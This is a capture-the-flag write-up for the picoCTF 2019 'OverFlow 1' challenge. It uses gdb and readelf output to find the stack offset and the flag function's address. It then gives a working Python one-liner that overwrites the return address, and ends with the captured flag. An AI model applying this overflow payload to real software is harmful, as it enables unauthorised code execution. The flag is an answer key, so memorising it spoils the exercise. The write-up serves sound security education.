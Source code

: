 # OverFlow 1
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. [Source](vuln.c).

## Hint
Take control that return address  
Make sure your address is in Little Endian.

## Solution
Like last time, we have to overflow the return address. However, we have to write a specific value into it. If we open up the program with gdb (the GNU project debugger), we can see the assembly layout and certain addresses in the program:
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ gdb vuln
(some messages while opening up)
(gdb) disas main
Dump of assembler code for function main:
```
```asm
   0x0804869e <+0>:     lea    0x4(%esp),%ecx
   0x080486a2 <+4>:     and    $0xfffffff0,%esp
   0x080486a5 <+7>:     pushl  -0x4(%ecx)
   .
   .
   .
   0x080486fd <+95>:    add    $0x10,%esp
   0x08048700 <+98>:    call   0x804865f <vuln>
   0x08048705 <+103>:   mov    $0x0,%eax
```
We see that the vuln function is called. The `call` command pushes, or "saves", the address of the next instruction (0x08048705) onto the stack, and it will jump to `vuln`'s address (0x804865f). A `ret` function in vuln will pop from this saved address from the stack later and jump to it, thus continuing the function. We want to overwrite this return address. Now when we disassemble `vuln`:
```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
```
```asm
   0x0804865f <+0>:     push   %ebp
   0x08048660 <+1>:     mov    %esp,%ebp
   0x08048662 <+3>:     push   %ebx
   .
   .
   .
   0x08048677 <+24>:    push   %eax
   0x08048678 <+25>:    call   0x8048430 <gets@plt>
   0x0804867d <+30>:    add    $0x10,%esp
```
This program calls `gets` (last time it called `strcpy`). `gets` reads from stdin, and like `strcpy`, it doesn't check the size of the input, but it terminates when a newline character is reached(\x0a, the same as pressing "Enter" on a keyboard). We can input 64 bytes of a's (the size of the buffer) and see how close we are to the return address by analysing the stack with gdb:
```
(after inputting the a's)
(gdb) x/50x $esp
0xffb2ef20:     0xffb2ef30      0xf7f38000      0xffb2ef68      0x0804866b
0xffb2ef30:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef40:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef50:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef60:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef70:     0x08048800      0x0804a000      0xffb2ef98      0x08048705
.
.
.
```
There it is, the saved address 0x08048705 at 0xffb2ef7c. This means we need to overwrite 12 more bytes, and then add the return address in little endian, where we can use python's struct module to convert hexadecimal values into bytes, and overwrite it with the address of the flag function, which will read out the flag to us. We can find `flag`'s address with `readelf`, and `grep` the results for "flag":
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ readelf -s vuln | grep "flag"
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
```
Our payload looks like this:
```python -c "import struct; print 'a'*(64+12) + struct.pack('I', 0x080485e6)" | ./vuln```

## Details
Completed: *During competition*  
Done by: Cyril  
Flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5c0178710}`
